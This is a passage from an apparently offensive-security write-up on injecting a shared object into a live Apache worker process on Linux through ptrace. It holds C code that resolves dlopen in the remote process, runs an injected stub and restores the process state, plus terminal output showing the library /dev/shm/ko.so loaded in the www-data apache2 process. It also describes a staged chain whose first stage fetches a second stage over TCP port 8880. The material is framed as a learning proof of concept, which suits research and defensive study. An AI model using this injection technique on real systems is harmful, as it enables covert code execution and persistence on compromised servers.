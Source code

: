 ```c
        if (strstr(line, LIBDLSO) != NULL) {
            break;
        }
    }
    fclose(fp);
        
    // And finally calculate the address of the remote dlopen
    remote_dlopen_address = remote_libdl_base + offset_dlopen;
    return remote_dlopen_address;
}
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
At this point we have:
- Our stub injected in the remote process
- The CPU registers in the correct state

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So we only need to resume the execution and restore everything to his natural state:
```c
   ptrace(PTRACE_CONT, pid, NULL, NULL);

    	waitpid(pid, &waitpidstatus, WUNTRACED);
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);

        // Now is time to restore everything to his original status :)
        ptraceWrite(pid, code_cave_address, oldcode, CAVE_SIZE);
        ptrace(PTRACE_SETREGS, pid, NULL, &oldregs);
        ptrace(PTRACE_DETACH, pid, NULL, NULL);
 		free(oldcode);
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Et voilà
```
gidorah@kaiju:|⇒  sudo cat /tmp/chivato 
PID: 15922
gidorah@kaiju:~|⇒  sudo cat /proc/15922/maps | grep ko
7f4b19690000-7f4b19691000 r-xp 00000000 00:11 120413                     /dev/shm/ko.so
7f4b19691000-7f4b19890000 ---p 00001000 00:11 120413                     /dev/shm/ko.so
7f4b19890000-7f4b19891000 rw-p 00000000 00:11 120413                     /dev/shm/ko.so
gidorah@kaiju:~|⇒  ps -aux | grep 15922
www-data  15922  0.0  0.8 284892 16532 ?        S    13:07   0:00 /usr/sbin/apache2 -k start
```
## PoC || GTFO
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This is just a proof of concept, so do not use it in production servers or in real operations. Learn the technique and then use it carefully. Of course __everything here is based in a particular enviroment where ptrace_scope is 0 and suid_dumpable is set to 1__. That is not a default situation.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I put here the 3 stages to let you test it and play a bit in local. The __stage 1__ will try to contact the TCP port 8880 to download the __stage 2__. This was designed like a binary before thinking it as a shared object, so it has tons of fprintf() as debug.
